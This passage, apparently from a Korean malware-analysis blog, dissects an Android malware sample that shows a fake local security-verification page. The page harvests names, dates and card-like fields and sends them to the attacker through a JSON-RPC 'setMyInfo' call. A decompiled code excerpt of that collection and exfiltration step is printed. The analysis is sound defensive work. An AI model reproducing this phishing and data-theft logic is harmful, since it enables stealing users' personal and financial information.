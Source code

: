 한국어에서 값을 가져와서 확인해보면, 아래 같은 페이지를 확인할 수 있습니다. 이 페이지는 `127.0.0.1:Random_port` 로 열리는 Web view Activity로, 사용자는 안전 인증 페이지로 오인하여 본인의 정보를 입력할 수 있습니다. 이 때 `%%ACCOUNT%%` 부분은 기기에 저장된 gmail 계정이 출력됩니다.

![10.png](/assets/2023-11-15-Android-malware-사마귀-해부학/10.png)

전달 받은 값은 `127.0.0.1:port/submit` 으로 전달, Response 값을 `setMyInfo` method로 JSON-RPC 통신하게 됩니다. 즉 공격자에게 전달됩니다.

* Json-RPC는 원격 프로시저 호출을 위한 프로토콜입니다. 서버와 경량의 데이터 교환을 수행하는데, 이 때 JOSN 형식을 사용합니다.

```c
v8_1 = (String)v7.get("name");
v8_2.append(((String)v7.get("first_name")));
String v0 = (String)v7.get("middle_name");
v8_2.append(((String)v7.get("last_name")));
String v2_1 = (String)v7.get("date");
v2_1 = v2_1 + " " + ((String)v7.get("xx1"));
v2_1 = v2_1 + " " + ((String)v7.get("xx2"));
v2_1 = v2_1 + " " + ((String)v7.get("xx3"));
v2_1 = v2_1 + " " + ((String)v7.get("xx4"));
v2_1 = v2_1 + "/" + ((String)v7.get("ss1"));

// 수집한 정보를 JSON-RPC로 전달, 웹 서버 종료
String v0_1 = "JSON:" + new JSONObject(v7).toString(0);
this.c.g.f("setMyInfo", new String[]{v8_1, v0_1}).f(new Loader.t0.a(this, v7), Loader.t0.b.a);
}
```

---
